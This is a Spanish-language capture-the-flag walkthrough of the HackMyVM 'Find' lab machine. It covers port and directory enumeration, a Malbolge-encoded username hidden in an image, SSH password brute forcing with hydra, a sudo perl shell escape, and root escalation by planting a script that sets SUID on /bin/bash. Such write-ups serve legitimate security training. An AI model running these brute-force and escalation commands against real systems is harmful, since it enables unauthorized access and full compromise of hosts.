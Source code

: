 # Maquina Find Hackmyvm

```
Nivel =  facil
ip: 10.10.10.93
ports : 22 80
```
## Enumeracion de puertos y Servicios

~~~
# Nmap 7.92SVN scan initiated Wed Jun 15 16:02:59 2022 as: nmap -p- -sCV -T4 -v -n -oN targeted -oX targetedXML 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6ef79004840dcd1e5d2edab151d9bf57 (RSA)
|   256 395a6638f7649a94ddbcb6fbf8e73f87 (ECDSA)
|_  256 8c26e72662771640fbb5cfa61ce0f69d (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:11:31:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 15 16:03:19 2022 -- 1 IP address (1 host up) scanned in 20.00 secon
~~~

## Enumeracion de archivos y carpetas

~~~

dirsearch -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -t 64 -e txt,html,php,jpg

[16:24:44] 200 -   10KB - /index.html
[16:24:47] 403 -  276B  - /icons/      
[16:25:10] 200 -   34KB - /cat.jpg              
[16:25:16] 200 -  626B  - /manual/           
[16:25:16] 301 -  311B  - /manual  ->  http://10.10.10.93/manual/
[16:26:06] 200 -   13B  - /robots.txt  
~~~

En robots.txt nos pone que busquemos al usuario. --> find user :) .

Tenemos una imagen que contiene un codigo raro con strings cat.jpg lo veremos.

Tambien si le hacemos un file a la imagen nos reporta de donde sale la foto

~~~
file cat.jpg 
cat.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, comment: "File source: https://commons.wikimedia.org/wiki/File:Cat03.jpg", baseline, precision 8, 481x480, components 3
~~~

```bash
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

Se puede compilar en esta pagina , para dar con ella tela.
~~~
http://www.malbolge.doleczek.pl/
~~~

conseguimos un nombre de usuario y con hydra conseguimos el password

❯ hydra -l xxxxxxx -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.93 -f -t 64
Hydra v9.4-dev (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-15 16:22:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.10.93:22/
[22][ssh] host: 10.10.10.93   login: xxxxxxx   password: xxxxxxxx
[STATUS] attack finished for 10.10.10.93 (valid pair found)
1 of 1 target successfully completed, 1 valid password found


### User Pivoting

Del usuario xxxxxxx --> kings.

Con sudo -l podemos ejecutar perl en gtfobins encontramos la manera de ejecutar una bash.

~~~
xxxxxx@find:~$ sudo -l
[sudo] password for xxxxx: 
Matching Defaults entries for xxxxxxx on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User xxxxxx may run the following commands on find:
    (kings) /usr/bin/perl
xxxxxxxx@find:~$ sudo -u kings  perl -e 'exec "/bin/bash";'
~~~

### Escalada de Privilegios

accedemos como el user kings y encotramos la primera flag

con sudo -l podemos ejecutar un script pero no esta.

kings@find:~$ sudo -l
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh


Nos vamos a la carpeta opt y veremos que tenemos permisos de escritura creamos la carpeta boom y el archivo boom.sh.



```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permisos chmod +x boom.sh y lo ejecutamos --> sudo -u root /opt/boom/boom.sh.

Aqui al ejecutarlo lo que haremos es darle permisos SUID al binario /bin/bash.

Con bash -p accedemos como root.
~~~
kings@find:~$ bash -p
bash-5.0# id;whoami;hostname
uid=1002(kings) gid=1006(kings) euid=0(root) groups=1006(kings),1005(kingg)
root
find
bash-5.0#
~~~
